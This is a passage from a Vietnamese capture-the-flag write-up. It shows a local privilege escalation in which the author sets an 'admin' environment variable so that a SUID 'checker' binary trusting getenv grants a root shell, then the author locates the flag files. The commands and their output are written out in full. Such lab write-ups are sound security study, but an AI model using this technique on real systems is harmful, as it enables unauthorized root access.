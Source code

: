 ```python
www-data@blog:/$ ./usr/sbin/checker
Not an Admin
```

Khi chạy file này nếu không phải *admin* thì nó sẽ in ra "Not an Admin". Tôi có nhìn thấy phía trên có `getenv` hiểu đơn giản là nó sẽ trỏ đến môi trường có tham số "admin". Tôi phải tạo một môi trường mới tên "admin" để khi chạy file binary này nó sẽ trỏ đến môi trường "admin"

`www-data@blog:/$ export admin=9`

Sau đó chạy lại file *checker*

```python
www-data@blog:/$ /usr/sbin/checker 
root@blog:/# 
root@blog:/# whoami
root
root@blog:/#
```

Lên luôn *root* user này?? 

```python
root@blog:/# find / -type f -name user.txt 2>/dev/null
/home/bjoel/user.txt
/media/usb/user.txt
root@blog:/# 
```

## Conclusion

Qua bài này, tôi học được thêm về file binary, cách biên dịch nó hay chỉ đơn giản là đọc nó ở dạng "có thể đọc được" :smile: 

Tôi nghĩ bài này được xếp vào mức độ Medium là vì phần leo thang đặc quyền với file binary và cách tạo môi trường ảo để file có thể biên dịch.

Đọc thêm: [Linux Environment Variable](https://www.hostinger.vn/huong-dan/linux-environment-variable)



